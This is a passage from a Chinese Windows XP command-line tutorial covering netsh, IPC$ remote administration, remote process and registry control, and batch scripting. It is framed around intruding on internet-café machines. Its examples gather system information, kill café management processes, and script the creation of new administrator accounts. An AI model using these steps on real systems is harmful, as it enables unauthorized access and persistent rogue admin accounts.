也许是由于 Netsh 子命令很多的原因，它的使用被设计成控制台模式（不过不用控制台模式也可以使用，只是不方便而已，它的子命令及子子命令很多）。在命令行下直接输入 `netsh` 就可以进入它的控制台了，输入“?”查看帮助信息，如图3-5-1。的确是很多子命令吧，而且很多子命令下还有子命令，这是它设计成这种使用模式的主要原因吧！要退出 Netsh 控制台很简单，输入 `exit` 就可以返回到命令提示符了。我们需要的功能在 **interface** 下，直接输入 `interface` 就进入了下一级子命令控制台，这时候我们还可以输入“?”来查看 interface 下可用的命令，但笔者感觉 Netsh 设计得不好的一点就是还会显示上一级命令下的子命令，这似乎有些多余了。没有办法，将就着看吧！在“此上下文中的命令：”下的就是 interface 的子命令了。当你了解了当前命令下都有哪些子命令后，就可以用“子命令名称 + /?”这种形式查看子命令的子命令了，如图3-5-2。


输入 `ip` 进入 ip 子命令，这时候控制台变为 **netsh interface ip>** 了。查看信息我们用 `show` 命令可以做到，直接输入 `show` 查看可以查看哪些信息，如图3-5-3。

除了可以查看 IP 地址配置、DNS 服务器地址等信息外，我们还可以查看 TCP 及 UDP 的连接，这不是 Netstat 命令的功能吗？可以说 Netsh 命令结合了 Netstat 和 Ipconfig 两个命令并扩展了更强大功能！算了，不感叹了，继续。要查看其中的一些信息必须有一个服务的支持：**Routing and Remote Access**。如果这个服务没有启动的话，在显示一些信息的时候将出现如图3-5-4的提示。

这个服务的名称为 `remoteaccess`，系统默认是禁用的，在命令提示符下输入 **sc config remoteaccess start= auto** 就可以将它的启动类型设置为自动，然后输入命令 **sc start remoteaccess** 就可以启动该服务了，如图3-5-5。

SC 是 WinXP 提供给用户的强大命令行服务管理工具，当然你也可以手工在图形界面下设置服务的启动类型以及启动它。服务启动后必须重新进入 Netsh 控制台才可以生效，然后我们就可以查看网络配置信息了，首先输入 **show address**，如图3-5-6。

是不是和 `ipconfig` 显示的信息很相似呢，而且还多了几项：DHCP 是否开启，即 IP 地址是静态的还是动态分配的，以及是否是公共网关和公共接口，这些我们了解一下就可以了，重要的是查看本地 IP 和网关 IP。如果只想查看本机的 IP 地址，输入命令 **show ipaddress**，如图 3-5-7。

其中的 127.0.0.1 叫作**回送地址**，它被用作实验而不在网络上使用，我们通常用 127.0.0.1 代表本地主机。要查看 DNS 信息，输入命令 **show dns**，如图 3-5-8。

Netsh 不仅可以显示首选 DNS 服务器地址，备用 DNS 服务器也会被显示。如果想要综合查看前面这些所有的配置信息，输入命令 **show config**，如图 3-5-9。


下面我们来看看 TCP 的连接情况，输入命令 **show tcpconn**，如图 3-5-10。

是否和 `netstat -an` 命令显示的结果很相似呢，这里给出的结果更为直观，本地及远程地址和端口都是分离开的，并且连接状态以中文显示。不过它无法显示端口使用的协议，并无法将连接与进程连接起来。其他网络配置信息的查看留给大家自己下去尝试，要多多练习哦！

### 3.5.2、修改网络配置

我们关心的网络配置就是上面查看过的那些，具体到修改网络配置，我们可以修改的有 WINS 服务器模式和地址、DNS 服务器模式和地址以及 IP 地址和默认网关。相对 WINS 更为重要的是后两项，这里我将演示在命令行下如何用 Netsh 的子命令修改 IP 地址和 DNS 服务器地址。

在网吧通过修改 IP 地址我们可以达到一定的目的，至于达到什么目的到后面你就会知道了。不过不管怎么说，修改 IP 地址也是最简单的和最应该会的网络配置。

IP 地址前我们同样来到 `netsh interface ip` 控制台下，其下有一个子命令 `set` 可以修改网络配置。`set address` 可以设置 IP 地址、子网掩码及网关地址，`set dns` 可以设置 DNS 服务器地址。

`set address` 命令格式大致为：**set address 接口名称 IP 分配状态（动态或静态） 本机 IP 地址 子网掩码 网关地址 GatewayMetric 值**。

示例中先用 `show address` 查看配置：接口名称、本机 IP、子网掩码、网关 IP、GatewayMetric 等，再将这些参数代入 `set address` 完成修改。例如把 IP 改为 `192.168.0.222`。

当出现“确定”提示后表示修改成功。注意：接口名含空格时需用双引号；若为 DHCP 分配则把 `static` 改为 `dhcp`；子网掩码和 GatewayMetric 通常保持不变。

修改 DNS 的方法与修改 IP 类似，命令格式为：**set dns 接口名称 IP 分配类型（动态/静态） DNS 服务器地址 DNS 地址注册类型**。常见为首选 DNS（`primary`）。

文中继续说明：可通过 `show dns` 或 `show address` 获取所需参数，随后修改 DNS 地址即可。

后续给出更简便方式：不进入 Netsh 交互控制台，也可直接输入 `netsh` 子命令完成网络配置查看与修改。

结尾总结：本节重点是掌握修改本机 IP 地址与 DNS 的基本方法，NETSH 命令还有更多内容可继续探索。


### 3.6、其他命令网络功能扩展演示

Windows NT 笔者没有用过，不过从 2K 开始，Windows 的网络功能就在逐渐增强，只不过在 XP 中更强更安全了，当然这是相对的。除了图形界面的程序外，命令行工具的网络性能也有了大幅度提升，我们以前经常用到的一些貌似和网络挂不上一点边的工具在 WinXP 中都被赋予了网络功能，比如文件夹和文件查看命令 `dir` 等。这里我们将以几个对网络安全比较重要的命令的网络用法为例进行讲解，让大家掌握 WinXP 下的具有网络功能的命令行程序的基本用法。

首先要清楚的是，这些命令如果要应用在网络管理上则需要 IPC 共享通道的支持。对于 IPC，因为一些信息的查询以及操作需要一定的权限，IPC 连接也可以看成是一个身份验证的过程。对于 IPC 相信很多朋友都已经耳熟能详了，如果还有朋友不明白的话，在后面还有讲解，这里你只要会建立 IPC 连接就可以了。在用这些工具进行网络操作之前必须先进行 IPC 连接，它们通过 IPC 共享在远程计算机上验证一个有操作权限的用户的用户名和密码。你可以首先手工建立 IPC 连接，命令如下：`net use \\192.168.0.1\ipc$ password /user:administrator`，如图 3-6-1。


其中 192.168.0.1 是连接的远程主机的 IP 地址，administrator 是连接所使用的用户名，password 就是用户密码了；关于获得远程主机的系统账户及密码相关将在第五章的网吧入侵部分进行讲解。当见到“命令成功完成”就说明 IPC 建立成功了，这时候你和对方就建立了一条无形的通道，接下来你就可以借助 XP 中的工具通过这个通道查询远程主机的信息或者进行远程操作了。

### 3.6.1、远程信息查询

前面我们用 Systeminfo 查看了本机的系统信息，其实它还可以查看远程计算机的。在 CMD 下输入 `systeminfo /?` 查看该命令的帮助文档，如图 3-6-2。

首先出现的参数是 `/S system`、`/U username` 和 `/P password`，它们代表的分别是远程计算机、用户名和密码。我们可以用这三个参数指定一个用户验证到一台远程计算机的身份，用以查看对方的系统信息。这些参数是 Systeminfo 命令自带的，因此在使用它们的时候就自动建立了 IPC 连接而无需事先手工建立了。根据 Systeminfo 的用法，我只要输入 `systeminfo /S 192.168.0.1 /U administrator /P password` 获取远程主机详细的系统信息，如图 3-6-3。

和本地查看同出一辙吧！Systeminfo 的网络支持使得查看远程主机的系统信息变得十分简单和方便，这不仅给网络管理员带来了好处，更使黑客们喜从天降。强大的网络支持，这就是 Windows XP 给我们带来的福音。和 Systeminfo 一样，大部分命令行下具有网络功能的工具都是用 `/S`、`/U`、`/P` 这三个参数进行操作前的连接和验证的，这其实就是一个 IPC 的连接过程，让我们再来看一个例子。


### 3.6.2、远程计算机进程的查看与结束

Tasklist 可以很方便地查询本地当前运行的进程，同样具有网络功能。图 3-6-4 是笔者查看 `192.168.0.1` 当前进程情况。

WinXP 给了 Tasklist 网络功能的支持，当然也忘不了 Taskkill。可以用它结束远程计算机进程，参数与本地用法类似，在前面加必要参数即可。例如结束 `pubsrv.exe`：`taskkill /S 192.168.0.1 /U administrator /P password /im pubsrv.exe`。

再用 Tasklist 查看对方进程信息，确认该进程是否已经不存在。


### 3.6.3、远程管理注册表

在前文已知注册表编辑器可连接远程计算机，命令行下的注册表管理工具 REG 也支持类似能力。与前两命令不同的是，它不会自动建立连接，操作远程注册表前需先建立 IPC$ 连接。


打开注册表编辑器，在“文件”菜单选择“连接网络注册表”，输入对方 IP（如图 3-6-5）。连接后可见远程计算机的 `HKLM`、`HKU` 等根键，并在 `HKLM` 下进行测试。

REG 的子命令中支持网络功能的有 `ADD`、`COPY`、`DELETE`、`COMPARE`、`QUERY`。网络路径通常写为 `\\IP\Reg_Path`，例如在 `192.168.56.8` 的 `HKLM\Software` 下新建 `Test` 项，并继续添加键值进行验证。


随后可把 `Test` 项复制到 `HKLM\HARDWARE\Test`，并删除其中某个 DWORD 值（如 `Fornever`）。还可将远程注册表项复制到本地，例如：`reg copy \\192.168.56.8\hklm\software\test hkcu\test`。


这里复习了 REG 命令在网络场景下的常见用法。其命令行格式与本地基本一致，只是加入远程主机路径。完成操作后应断开 IPC 连接；在 `regedit.exe` 的“文件”菜单可执行“断开网络注册表”。

远程主机的注册表连接，在 CMD 下输入 `net use \\IP\IPC$ /del` 就可以断开 IPC 连接了，如图 3-6-9。

在 Windows XP 中还有很多像前面介绍的这些具有网络功能命令，比如大名鼎鼎的 SC，也有的公司开发了很多基于 IPC 连接的命令行网络管理工具，这其中最著名的要算 Sysinternals 公司出品的 Pstools 工具组合了。貌似这个公司已经被微软收购了。Pstools 工具包里包含了十几个命令行工具，管理员使用它们可以很方便地对远程计算机进行管理。这其中有远程上传/执行程序的 `psexec.exe`、远程管理服务的 `psservice.exe`、查看远程计算机软件信息的 `psinfo.exe` 以及查看远程进程的工具 `pslist.exe`，相信这其中有大家所熟悉的吧！当然它还有其他成员，这里不再一一介绍，Pstools 的工具组合已经收录入光盘，以供大家参考和研究。使用得当的话，Pstools 真是一个强大的黑客工具组合呢！

## 4、无敌批处理

批处理，顾名思义就是批量处理，它是 Windows 中处理 CMD 命令的一种无格式的脚本文件。批处理同时也是文本文件，你可以直接用记事本打开一个批处理文件查看内容，也就是说批处理可以用普通的文本编辑器编写。在批处理的书写中每个命令独占一行，在执行的时候从上至下依次执行每条命令。由于一些专用于批处理文件的命令的出现，也使得批处理有了跳转和条件判断以及循环等功能了，这和程序编写有些相似了。虽然批处理的编写和程序的编写是两码事，但学习批处理的编写的确有利于程序编写的学习，这点笔者有切身体会。

在现实生活中，人们用它来简化重复性的任务；而在网络安全的领域中，黑客们通常编写批处理文件来一次性完成多个命令或者操作，这不仅简化了操作，并且有时候这是很重要的。最简单的解释就是我们把经常用到的命令写入一个文件中，当要用的时候只要执行这个批处理文件就可以了，而无须再输入命令和参数，这无疑减少了很多工作量。

多说无益了，这里就给出一个最简单的批处理文件的例子吧，我们用编写的这个批处理文件来获取本地计算机的一些信息，获得信息的命令前面我们已经讲过了，这里只要把它们一行一行地写入一个文件中就可以了，这里我以其中几个命令为例，将下面的代码写入一个文本文件中：

```bat
systeminfo
ipconfig /all
tracert www.google.com
net user
netstat -an
net start
net share
pause
```


然后点击该文本文件的“文件”菜单，并选择“另存为”，在文件名的地方保存为一个后缀名为 `.bat` 或者 `.cmd` 的文件，这里我保存的是 `info.bat`，然后双击这个文件我们就会看到 CMD 打开了，并且依次执行这些命令了。等命令执行完后，我们就可以把 CMD 中的所有内容复制到一个文本文件中，这样一下子就可以得到所有的计算机信息，是不是很方便呢？下次到了另外一个网吧只要执行这个文件就可以了，而不用再一遍一遍输入命令，一遍一遍粘贴信息了。

在上面的批处理例子中我最后加了一个 `pause` 命令，这个命令就是暂停的，因为批处理在执行完最后一条语句后会自动退出，为了争取复制本地计算机信息的时间，我们需要暂停一下，如图 4-1-1。使用 `pause` 命令的效果就是出现的最后一行字，在所有工作都完成后你按下任意键这个批处理就算执行完了，而在批处理的执行过程中你同样可以用 `Ctrl+C` 组合键结束批处理的执行。在 WinXP 中，可以使用的批处理文件格式有 `.bat` 和 `.cmd`，前者是 Win9x 和 WinNT 系统通用的，后者则是 NT 系统专有的批处理格式，在 Win9x 下的另一个批处理格式为 `.com`。

当然批处理的功能不仅仅像我刚才展示的那样简单，通过一些命令我们可以使批处理的功能更加强大。很容易想到的是在批处理中加入一些可以完成一定操作的命令可以实现不同的功能，而一些批处理的专用命令则可以让我们自由地控制批处理中的命令的走向、输出以及一些更细微的操作，这些都很像程序编写了。接下来我们就要开始精彩的批处理文件编写的学习了，掌握了批处理的编写后，你就可以按照自己的意愿结合一些命令行程序制作功能强大的黑客工具，这会使你很有成就感！就说到这里，开始喽！

## 4.1、初级批处理命令

将要讲到的批处理命令一般不具有实际功能，它们是用来实现条件判断、跳转、循环等逻辑功能，控制语句执行流程的。正是因为加入了这些功能，才使得批处理文件有了强大的功能和接近于程序编写，因此掌握这些命令的用法非常重要，不，是必要的！

### 4.1.1、Echo

Echo 命令是最简单也是最常用到的批处理命令，我们通常用它在批处理的编写过程中显示一些信息，以达到提示用户的目的，而它也常被用来显示一些东西。呵呵，有些莫名了吧，我们来看它的用法吧！

- **a、显示和修改 ECHO 状态**

在 CMD 下，输入 `echo off` 将使命令提示符消失，只剩下光标，但是这并不影响命令的执行，如图 4-1-2。最后我又用 `echo on` 打开了回显，命令提示符就又回来了。一般我们在编写自己个性化的批处理程序时通常要把系统的提示符关闭，即在批处理的第一句写 `echo off`，如果想关闭“ECHO OFF”命令行自身的显示，则需要在该命令行前加上 `@`，注意没有引号。


- **b、在 CMD 中显示一条信息**

这个用法也是很常用的，我们常用它告诉用户该如何操作。它的命令格式也很简单，为 `ECHO MESSAGE`，其中 MESSAGE 就是你要显示在 CMD 中的信息。这里我编写一个批处理，执行它后只显示我想显示的内容，将下列代码保存为一个批处理文件并执行，我保存为 `EchoTest.bat`。

```bat
@echo off
echo NOHACK(www.nohack.cn)
pause
```


图 4-1-4 是我执行后的结果。大家可以尝试下不加第一行最前面的 `@` 符号和不加 `echo off` 语句后的执行结果，是不是显示得很乱呢？Echo 命令可以显示数字、字母和一部分符号（包括空格），之所以这么说是因为在 CMD 中有一些符号被赋予了一些功能，要想正常显示这些符号必须使用脱字符。

- **c、输出空行**

有时候为了批处理程序美观，我们需要它执行的时候显示几个空行。要知道在批处理中留的空行都是会被忽略的，因此在批处理文件中留的空行在执行的时候并不会被显示，不过我们可以利用 Echo 命令输出空行，用法为 `echo.`，注意点和 echo 之间没有空格，否则输出的就是一点了。我们还可以用 `/`、`\`、`+`、`:` 等字符替换点，可以达到同样的效果。输出的这个空行相当于一个回车。

- **d、使喇叭发声**

命令为 `echo ^G`，其中 `^G` 是用 Alt+小键盘的 007 或者 Ctrl+G 输入的，直接在命令行下输入并执行它，系统就会发出“嘀”的一声，你可以把这个加入到你的批处理中作为完成一个操作的标志哦，很个性吧！

### 4.1.2、Goto 和标签

Goto 命令专用于批处理文件，它被用来跳转到批处理中的某个标签位置。标签的格式为 `:label`，标签前面不能加任何符号，否则标签将失效。标签将忽略不被执行。我们在使用 Goto 命令跳转到某个标签时，格式为 `goto LabelName`，注意这里是没有冒号的。比如我有一个 `:usage` 的标签，在批处理文件执行到 `goto usage` 的时候，CMD 就在批处理文件中寻找 `:usage` 标签，找到后就开始从 `:usage` 下的语句依次向下执行，直到碰到下一个 goto 语句或者批处理结束执行，而不论这个标签在批处理的什么位置。让我们来看一个例子，这里将下列代码保存为 `GotoTest.bat`。

```bat
@echo off
echo.
echo 上面空了一行
goto usage
echo 这里的这条echo语句和下面的ipconfig命令被跳过了
ipconfig
:usage
echo.
echo 跳转到了这里
echo.
pause
```


执行后的结果如图 4-1-5 所示。其中有一个特殊的标签 `:eof`（EOF 是 End Of File 的缩写），跳转到这个标签就意味着转到批处理文件的末尾，然后结束批处理。注意这里的跳转格式为 `goto :eof`，冒号不能去掉，否则会跳到用户设置的 `:eof` 标签，大家要清楚其中的区别。Goto 语句通常用于条件判断命令 `if` 的后面，在 if 语句符合一定的条件后跳转到一个标签，符合另外的条件跳转到另外的标签。

### 4.1.3、Rem

与 Rem 命令同一行的所有内容将不被执行，因此它是被作为注释使用的，它就好像 C 语言中的 `/* */` 和 C++ 中的 `//`。

注释是一个好习惯，这可以清晰编写思路，并且让别人读你的代码时也容易了许多。我们知道标签也不会被执行，因此我们也可以使用一个标签或者任意 string 类型的字符串作为注释行的开始，很多时候只使用 `::` 替代 `Rem` 使用，这也算一种巧妙的方法吧！当然你写一个冒号也是可以的。需要注意的是，`Rem` 在批处理文件注释中最好不要使用符号，遇到一些特殊符号很可能出错。

## 4.1.4、Call

Call 命令可以从一个批处理中调用执行另一个批处理文件而并不终止调用的父批处理。比如我编写的两个批处理文件 Call1.bat 和 Call2.bat，代码如下，先是前者的：

```bat
@Rem Call1.bat Start
@echo off
call call2.bat
echo 执行完 call2.bat 后继续执行这句 echo，也就是我啦！
pause
Rem Call1.bat End
```

接下来是 Call2.bat 代码：

```bat
@echo off
echo 我是 Call2.bat 批处理文件
```

执行后的结果如图4-1-6。我们看到在执行完 Call2.bat 后又返回来执行 call 下面的语句，这个是 Call 命令的重要特性。Call 命令可以实现自调用，使用得当了可以解决很多问题，而如果失误了则很有可能造成死循环。Call 还可以在调用一个批处理的时候加入参数，使被调用批处理的功能更加灵活和强大。另外它也可以用来跳转到一个标签，和 Goto 不同的是，Call 执行完标签下的内容后会返回，继续执行 Call 命令下的语句，这是它特性的又一体现。在跳转标签的时候也允许添加参数给标签下的内容，关于批处理中参数的内容马上就会讲到，那时我们再讲解 Call 命令的这两个用法。

## 4.2、批处理中的符号与参数

在批处理中定义了很多特殊符号来完成一定的功能，它们使得批处理的操作更加灵活和简便，同时也更加强大。这些符号在使用 echo 等命令时如果不经过处理一般都会出错，而批处理的参数也很类似于 CMD 中命令的参数，只不过在编写批处理的时候要设定参数出现在哪里，这比前者就要复杂一些了。我们也可以把参数叫做变量，因为参数是由用户指定的，用户指定了一个不同的参数，批处理就会执行出不同的结果。用户输入参数的改变将导致批处理执行结果的改变，因此参数的引入扩展了批处理的灵活性。在 WinXP 中可用的批处理参数又被增强了很多，这又使得批处理的编写更为简便了。接下来我们就来学习这些批处理中“精灵”的用法吧！

### 4.2.1、命令重定向操作符

命令重定向操作符是将命令的输入和输出数据流从默认位置重定向到不同的位置，命令的默认输入位置是键盘，而默认输出位置则是命令提示符窗口。一般情况下我们在使用一个命令的时候是从键盘输入命令，而获得信息是来源于 CMD，就是这个意思了。重定向符号可以使它们来自（输入）或者去到（输出）其它地方，比如最常用的我们可以用一个命令的输出作为另一个命令的输入，这个过程就综合了将命令的输入和输出数据流从默认位置重定向到不同的位置两个方面。或者把一个命令输出的内容输出到一个文件中，这也是十分常用的。明白了概念后，让我们来看命令重定向符号都有哪些，如图4-2-1。

| 重定向操作符 | 说明 |
|---|---|
| `>` | 将命令输出写入到文件或设备（例如打印机）中，而不是在命令提示符窗口中。 |
| `<` | 从文件中而不是从键盘中读入命令输入。 |
| `>>` | 将命令输出追加到文件末尾，而不删除文件中的信息。 |
| `>&` | 将一个句柄的输出写入到另一个句柄的输入中。 |
| `<&` | 从一个句柄读取输入并将其写入到另一个句柄输出中。 |
| `|` | 从一个命令读取输出并将其写入另一个命令的输入中，也称作管道。 |

### a. `>` 和 `>>`

这两个符号是重定向输出符号，我们通常用它们来向文件中写入命令的输出。比如最开始我们编写的信息搜集的批处理，执行后它将系统信息打印在了 CMD 中，然后我们复制信息到一个文本文件中，过程还是比较繁琐的。有了这两个符号后，我们就不必那么麻烦了，这里我以三个命令为例讲解这两个符号的用法，将如下代码保存为 out1.bat：

```bat
@echo off
@systeminfo > info.txt
@ipconfig /all >>info.txt
@net user >>info.txt
```

在 CMD 下执行这个批处理，是不是没有像上次那样把信息打印到 CMD 中呢？这时候查看批处理所在的当前目录，是否多了一个 info.txt 的文本文档，打开它，里面赫然是本机的系统、网络配置以及用户信息。`>` 和 `>>` 都可以把命令的输出写入一个文件中，它们的不同点在于前者会覆盖文件中已有的内容写入新的内容，而后者是在文件已有的内容后面追加命令的输出内容。

什么时候该用 `>`，什么时候该用 `>>` 你应该清楚了吧！学习了前面的 Echo 命令，我们还可以手工将任意字符写入一个文件，比如我要将 `fornever` 这个字符串写入 `nohack.txt`，则命令为 `echo fornever > nohack.txt`，就这么简单。

### b、`<` 和 `|`

`<` 命令的功能是从文件中读入命令的输入而不是从键盘中。有些命令在执行后需要用户干预才能继续执行，比如一些命令需要用 `y` 确认。这里以日期修改为例，直接输入 `date` 会显示当前日期并提示输入新日期，回车后返回 CMD。

我们在一个文件中写入一个新日期，注意一定要在文件的第一行，比如写 `2007-03-21`，保存为 `date.txt`，然后将这个文件内容作为 `date` 命令输入来修改日期。

成功修改了日期。一般在用 `<` 符号的时候，我们需要把要利用文件作为输入的命令在文件中写好，注意一个输入要单独写一行。

`|` 符号又叫做管道符号，它可以提取一个命令的输出并把这个输出作为后面命令的输入。这里以 Echo 和 Time 为例：在 CMD 中输入 `echo. | time`，echo 输出的回车会被 Time 命令作为输入执行，从而无需再次手动输入。

推而广之，我们还可以用 Echo 对其它命令需要用户的操作作自动答复。例如删除目录中的文件时会提示确认删除。

| 句柄 | 句柄的数字代号 | 说明 |
|---|---|---|
| STDIN | 0 | 键盘输入 |
| STDOUT | 1 | 输出到命令提示符窗口 |
| STDERR | 2 | 错误输出到命令提示符窗口 |
| UNDEFINED | 3-9 | 这些句柄由应用程序和各个具体工具单独定义 |

### c、句柄重定向符号 `<&`、`>&`

输入或输出数据流的位置即为句柄。默认情况下，命令从键盘输入并输出到命令提示符窗口。图4-2-6 给出了可用句柄列表。

这两个符号一般用得较少。比如需要了解命令执行后的错误信息时，可使用：`ping www.google.com >test.txt 2>&1`，即将错误信息先输出到标准输出句柄，再重定向到 `test.txt`。重定向符号也可组合使用，如：`echo 2000-02-22 | date >test.txt`。

### 4.2.2、其它符号

其中 `@` 符号我们已经接触过了，它写在命令前面可以关闭命令本身的回显。`^` 符号是前面多次提到的可以处理其它特殊符号的符号，也叫转义（脱字符）。在特殊符号前加 `^`，可使 CMD 将其视为普通字符，从而按字面输出，比如输出管道符号等。

而如果想输出脱字符本身的话，在 `^` 前面再加一个脱字符就可以了。命令提示符允许用户的一次输入包含多条命令，这些命令将按照输入的先后顺序依次执行，有时候这是很必要的。`&`、`&&` 和 `||` 符号就是用来连接两个命令的，它们的不同之处在于 `&` 符号前面的命令无论是否执行成功了都执行后面的命令；当 `&&` 前面的命令执行出错的时候将不执行后面的命令，而 `||` 则和 `&&` 正相反，当它前面的命令执行成功后就不再继续往下执行命令。合理地组合它们可以实现不同的功能，比如我要新建一个用户并将用户加入管理员组，则可以这样写：`net user fornever password /add && net localgroup administrators fornever /add`，如果新建用户失败了，那把用户加入管理员组岂不是多此一举呢？还有什么，留给大家自己去发挥了。

### 4.2.3、批处理的参数

批处理被允许使用参数，这些参数被用来作为批处理中某个命令的输入。不过和命令不同的是，它们的参数没有可选项的引导，而是直接引入。比如 Taskkill 命令杀死一个进程：`taskkill /im pubwin.exe`，其中 `/im` 就是可选项；如果写一个完成同样功能的批处理的话，那就只有参数了，比如：`taskkill.bat pubwin.exe`。虽然我们也可以自定义可选项，但定义的可选项实际上仍然只是批处理的一个参数。

批处理的参数使用 `%` 符号引导，可用的参数从 `%0` 到 `%9` 一共十个，其中 `%0` 代表批处理本身，`%1` 代表第一个参数，`%2` 代表第二个参数，依次类推。在批处理中使用的 `%1`、`%2` 等参数都会被用户输入的实际参数（实参）所替换，被替换的以 `%` 引导的参数就是形参了。

这里我们用前面提到的 call 命令为例讲解批处理参数的用法。我们需要和某台远程主机建立 IPC 连接，但是每次输入那么长的命令让我感到厌烦，因此我写了一个带参数的批处理来消除我的烦恼，代码保存为 `para.bat`。

```bat
@echo off
@echo:
@echo %0是一个用来建立IPC连接的批处理程序
@net use \\%1\IPC$ "%3" /USER:%2
```

这里我设定 `para.bat` 的第一个参数为要进行 IPC 连接的远程主机的 IP，第二个参数为连接使用的用户名，第三个参数为用户密码，然后我在当前路径下执行 `para.bat` 并加入对应参数。我的第一个参数为 `192.168.56.8`，第二个参数为 `fornever`，第三个参数为 `foxrena`，从 `net use` 命令的结果中我们也可以看到成功建立的 IPC 连接。

前面我们提到的 Call 命令，在调用其它的批处理时可以在批处理后面加入参数，而在跳转到一个标签的时候同样也可以。这里我们重点来看看标签下的参数的用法，将下列代码保存为 `calllabel.bat`：

```bat
@echo off
call :a 111 222 333
call :b 444 555 666
goto :eof
:a
 echo %1 %2 %3
 goto :eof
:b
 echo %1 %2 %3
```

在 CMD 下执行后结果如图。和 Goto 不同的是，Call 命令跳转标签的时候需要加上冒号，并且 Call 同样会返回。一个标签从下面的第一条语句开始到跳转到另一个位置或者批处理结束可以看成一个模块，这一个模块中 `%1`、`%2` 等都是唯一的。在例子中先跳转到标签 `a` 并向其传递参数 `111 222 333` 后开始执行 `echo 111 222 333`，然后执行 `goto :eof`，此时不是结束批处理，而是结束当前模块并返回。

批处理中有一个命令可以移动参数，它是 `Shift`，它的用法很简单：`shift /n`，其中 `n` 是参数的位数。比如 `shift /2`，就会用第三个参数（`%3`）替换第二个参数（`%2`），用第四个参数（`%4`）替换第三个参数（`%3`），而 `%1` 和 `%0` 不会改变。在上面的 `calllabel.bat` 例子中，我在标签 `a` 下加入一条 shift 命令：`shift /2`，执行后结果如图4-2-11。

我们看到第一个参数没有改变，`%2` 被替换成了 `%3` 指定的参数即 333，而因为没有 `%4` 所以 `%3` 无法显示，因此只显示了 111 和 333。

## 4.3、高级批处理命令

### 4.3.1、IF

顾名思义，IF 是如果的意思，它的功能就是条件判断了。很多时候批处理的魅力都由 IF 命令而生，不同的条件产生了千变万化的结果，这里我们将介绍 IF 命令的四种用法，一般情况下这些用法就足够了。

- a、If [not] exist

Exist 是存在的意思，If 的这个用法是判断一个文件是否存在然后做出选择，其完整的命令格式为 `if [not] exist filename command [else expression]`，其中 filename 为判断是否存在的文件名，command 是要执行的命令。我们先讨论简单的用法，只有 if 语句时的情况，结果只有真假两种可能，当条件符合 if exist（文件存在）或者 if not exist（文件不存在）就执行 command 指定的命令，如果不符合则不执行 command，继续执行这条 if 命令下的命令。是不是有些晕了，让我们来看一个例子吧！

```bat
@echo off
if exist nohack.txt echo 文件存在!
echo 文件不存在!
pause
```

把上面的代码保存为 ifexist1.bat 并执行，结果如图4-3-1。批处理执行到第二句的时候，发现“if exist nohack.txt”的结果为假，于是不执行“echo 文件存在！”，然后接下来执行“echo 文件不存在！”。直到批处理执行完毕。这时候我们新建一个文本文件 nohack.txt，再执行这个批处理文件，结果如图4-3-2。

这时候却出现了两个结果，因为当前目录下确实存在了 nohack.txt 文件，所以执行“if exist nohack.txt”的结果就为真，于是就开始执行后面的“echo 文件存在！”。但是不要以为执行完这里的语句就不会执行下面的语句了，这是初学者最容易犯的错误，批处理还会按照从上到下的顺序依次向下执行语句，因此你也就看到“文件不存在！”的语句输出在 CMD 中了。

这里我想大家重点要理解的是 if 语句的执行过程，大家多加练习，这个过程就比较清晰了。这里你最好再使用下面的代码进行测试，体会 if 命令的这个用法，这里判断的是如果 nohack.txt 不存在，和上面的正好相反，但是执行的逻辑是相同的，代码如下（ifexist2.bat）：

```bat
@echo off
if not exist nohack.txt echo 文件不存在!
echo 文件存在!
pause
```

上面的两个代码都不能很好地显示文件存在或者不存在的结果，那我们可不可以让文件存在时执行一条命令，文件不存在时执行另一条命令呢？使用 else 子命令就可以做到，我们可以用下面的语句对这两种结果执行不同的命令，主体代码如下（完整代码保存为 ifexist3.bat 和 ifexist4.bat）：

```bat
if exist nohack.txt (echo 文件存在) else echo 文件不存在
或者
if not exist nohack.txt (echo 文件不存在) else echo 文件存在
```

else 是否则的意思，当前面的 if exist 或者 if not exist 的执行结果为假的时候才执行后面的 else 语句，这样我们就可以很好地针对不同的结果执行不同的命令了。要注意的是，else 子命令必须和 if 语句出现在同一行，并且像上面这样的用法在第一个命令执行的时候一定要用括号把命令和参数都包围住，否则的话这条 IF 命令将失效。

- b、If [not] string1==string2

If 的这个用法是比较两个字符串，其完整的命令格式为 `if [not] string1==string2 command [else expression]`，同上一个用法一样，当前面语句执行结果为真的时候执行 command 指定的命令，否则执行 else 后面指定的命令或者继续向下执行其它命令。有时候要进行比较的字符串具有特殊性，比如要比较的字符串中包含有空格或者就是一个空字符，这时候我们就要用一些符号把它们包围起来，使 CMD 把它们理解为一体或者理解为它们是要比较的字符，常用的符号有：大括号 `{}`、双引号 `""`，并且要注意指定比较的时候用的是两个等号。

一般用 IF 的这个用法比较字符串的时候是在用参数作为变量，两个固定的值似乎没有比较的意义。如下代码说明用法：

```bat
@echo off
@if "%1"=="" goto usage
@if "%1"=="/?" goto usage
@if "%1"=="add" goto run
@goto :eof
:usage
echo.
echo 你现在看到的是用法：
echo 直接输入 %0 或者输入 %0 /? 将显示帮助信息
echo 输入 %0 /add 将添加一个用户名和密码为 nohack 的管理员账户
echo.
goto :eof
:run
net user nohack nohack /add & net localgroup administrators nohack /add
```

将以上代码保存为 ifc_adduser.bat，这已经是一个比较完整的具有一定功能的批处理程序了。`@if "%1"=="" goto usage` 的意思是当第一个参数为空的时候跳转到 usage 标签，后两个命令同理。因此在 CMD 下直接执行批处理或者加入 `/?` 作为参数都会显示该批处理的用法，而使用 `/add` 作为参数则会添加一个用户，如图 4-3-3。

如果三个 if 条件都不满足的话，那就直接 `goto :eof` 结束该批处理了。根据需要你也可以在指定条件的时候使用 `if not string1==string2`，或者在后面加入 else 子命令，不过这里一般情况下 else 使用的不是很多。同样在使用 else 子命令的时候，前面的命令要用括号括住命令才能生效。

- c、If [not] errorlevel

这个用法是 IF 的一个比较高级的用法，同时也是功能最强大的用法，其完整格式为 `if [not] errorlevel number command [else expression]`。关于 not 和 else 子命令我们不再赘述，我们只讲它的最基础的用法。命令中的 errorlevel 是固定写法，中文翻译作错误级别，这里其实就是一个错误号码，每个命令在执行后返回的不同结果都会有一个号码表示，也就是这里的 errorlevel，这里 if 的这个用法就是根据命令的不同返回值执行不同的操作，number 就是指定的值了，当 `if errorlevel number` 前面的命令的返回值大于或者等于 number 的时候就执行后面的 command。

一般命令的返回值只有两个，一个是成功用 0 表示，一个是失败用 1 表示，但是也有不少命令的返回值不止两个，比如前面学过的 REG 命令的 COMPARE 子命令就有 0、1、2 三个返回值。我们把返回值的问题暂且搁下，先来看这个命令的用法，将下列代码保存为 errorlevel.bat：

```bat
@echo off
net user fox /add
if errorlevel 1 goto 1
if errorlevel 0 goto 0
:1
